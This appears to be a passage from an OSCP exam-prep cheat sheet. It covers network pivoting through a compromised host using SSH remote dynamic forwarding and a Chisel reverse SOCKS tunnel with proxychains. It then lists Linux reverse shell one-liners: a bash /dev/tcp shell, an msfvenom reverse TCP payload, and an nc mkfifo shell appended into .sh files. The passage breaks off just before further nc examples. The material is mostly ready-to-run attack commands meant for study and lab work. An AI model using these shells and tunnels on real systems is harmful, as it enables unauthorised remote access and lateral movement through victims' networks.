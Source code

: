 ### SSH

make sure SSH is enabled on kali

`systemctl status ssh`

start ssh if not enabled

`systemctl start ssh`

Next, on target device we have aceess to, set up dynamic pivot into network. AKA, SSH into our local kali box with these creds:

`ssh -N -R 9998 <username>@<IP>`

Check status of pivot w/ 

`ss -anp`

Make sure Proxychains is configured with the correct port

### Chisel HTTP Tunnel

- (https://github.com/jpillora/chisel)

`Transfer chisel to client`

then on our Kali machine start the chisel server

`chisel server --port 8080 --reverse`

and on the target (our example with be from a windows device)

`.\chisel.exe client <IP>:8080 R:socks`

should receive connection on and have pivot on port 1080

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/7e72cd76-967d-4990-b9f2-af1635d89cd8)

Add port 1080 to `/etc/proxychains4.conf` and continue to enumerate the rest of the network:

![image](https://github.com/cbass12321/OSCP-Cheat-Sheets/assets/99432278/264adc93-353e-4cff-b6dd-0f0391a3ae0d)

# Linux Cheat Sheet

********Quick Reverse Shell********

/bin/bash -i >& /dev/tcp/<IP>/<Port> 0>&1

`msfvenom -p linux/x64/shell_reverse_tcp LHOST=<IP> LPORT=<Port> -f elf -o reverse.elf`

**Easy cat rev shell one liner into .sh files:** 

`echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc **<IP>** **<Port>** >/tmp/f" >> **<Filename>.sh`

**Some nc rev shell examples**

If you have command execution but the shells your making is dont work nc will almost always work, I have not done a CTF or box provided by offsec where nc was not usable. The syntax of the command can be different from box to box, the examples listed below work in any box I did to prepare for the exam
